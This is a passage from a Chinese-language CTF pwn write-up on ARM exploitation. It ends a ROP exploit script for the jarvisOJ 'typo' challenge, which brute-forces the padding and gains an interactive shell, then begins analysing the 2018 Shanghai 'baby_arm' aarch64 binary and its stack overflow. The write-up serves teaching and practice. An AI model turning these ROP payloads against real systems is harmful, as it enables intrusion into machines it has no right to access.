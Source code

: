 ```
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop|ret" | grep r0
    0x00020904 : pop {r0, r4, pc}
    '''
    
    payload = 'a' * i + p32(0x20904) + p32(0x6c384) * 2 + p32(0x110B4)
    success(i)
    io.sendlineafter("\n", payload)

    #  pause()
    try:
        #  pdb.set_trace()
        io.sendline("echo aaaa")
        io.recvuntil("aaaa", timeout = 1)
    except EOFError:
        io.close()
        continue
    else:
        io.interactive()
```

## 2018 上海市大学生网络安全大赛 - baby_arm

### 静态分析

题目给了一个 `aarch64` 架构的文件，没有开 canary 保护
```bash
Shanghai2018_baby_arm [master] check ./pwn
+ file ./pwn
./pwn: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, BuildID[sha1]=e988eaee79fd41139699d813eac0c375dbddba43, stripped
+ checksec ./pwn
[*] '/home/m4x/pwn_repo/Shanghai2018_baby_arm/pwn'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
看一下程序逻辑
```C
__int64 main_logic()
{
  Init();
  write(1LL, "Name:", 5LL);
  read(0LL, input, 512LL);
  sub_4007F0();
  return 0LL;
}

void sub_4007F0()
{
  __int64 v0; // [xsp+10h] [xbp+10h]

  read(0LL, &v0, 512LL);
}
```
程序的主干读取了 512 个字符到一个全局变量上，而在 `sub_4007F0()` 中，又读取了 512 个字节到栈上，需要注意的是这里直接从 `frame pointer + 0x10` 开始读取，因此即使开了 canary 保护也无所谓。
